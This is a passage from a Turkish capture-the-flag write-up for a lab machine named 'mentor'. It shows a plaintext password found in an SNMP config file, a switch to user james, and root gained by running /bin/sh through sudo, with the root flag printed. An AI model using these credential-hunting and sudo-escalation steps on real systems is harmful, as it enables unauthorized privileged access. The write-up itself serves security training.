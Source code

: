 ```bash
/etc/fwupd/redfish.conf:#Password=
/etc/login.defs:# Password aging controls:
svc@mentor:/tmp$

# /etc/snmp/snmpd.conf: SuperSecurePassword123__
```

Config dosyalarının içerisinde bir password bulunur ve james kullanıcısına geçiş yapılır.

# <span style="color:#AA0E1C"><b># PrivEsc: james → root</b></span>

```bash
james@mentor:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:~$ sudo /bin/sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
1391702197ec356622640c662f3f5e89
#
```

`/bin/sh` dosyasını sudo ile çalıştırarak root olabiliriz.
